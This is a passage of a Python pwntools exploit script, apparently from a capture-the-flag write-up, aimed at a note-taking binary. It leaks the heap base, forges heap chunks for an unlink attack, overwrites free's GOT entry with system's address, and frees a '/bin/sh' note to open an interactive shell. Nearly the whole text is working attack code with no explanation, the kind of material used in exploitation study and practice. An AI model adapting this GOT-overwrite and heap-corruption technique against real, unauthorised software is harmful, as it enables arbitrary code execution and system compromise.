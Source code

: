     r.recvuntil('Length of note: ')
    r.send(str(len(s)) + '\n')
    f.write(str(len(s)) + '\n')
    r.recvuntil('Enter your note: ')
    r.send(s)
    f.write(s)

def quit():
    r.recvuntil('Your choice: ')
    r.send('5\n')
    f.write('5\n')

for i in range(4):
    newnote('a')
delnote(0)
delnote(2)

newnote('12345678')

s = getnote(0)[8:]
heap_addr = u64((s.ljust(8, "\x00"))[:8])
heap_base = heap_addr - 0x1940
print "heap base is at %s" % hex(heap_base)


delnote(0)
delnote(1)
delnote(3)

size0 = 128+0x90+0x90
newnote(p64(0)+p64(size0+1)+p64(heap_base+0x18)+p64(heap_base+0x20))
newnote("/bin/sh\x00")
newnote("a"*128+p64(size0)+p64(0x90)+"a"*128+(p64(0)+p64(0x91)+"a"*128)*2)
delnote(3)

free_got = 0x602018
free2system = -0x3b6a0

editnote(0, p64(100)+p64(1)+p64(8)+p64(free_got))

s = getnote(0)
free_addr = u64((s.ljust(8, "\x00"))[:8])
system_addr = free_addr + free2system
print "system is at %s" % hex(system_addr)

editnote(0, p64(system_addr))
delnote(1)
f.close()
r.interactive()
{% endhighlight %}
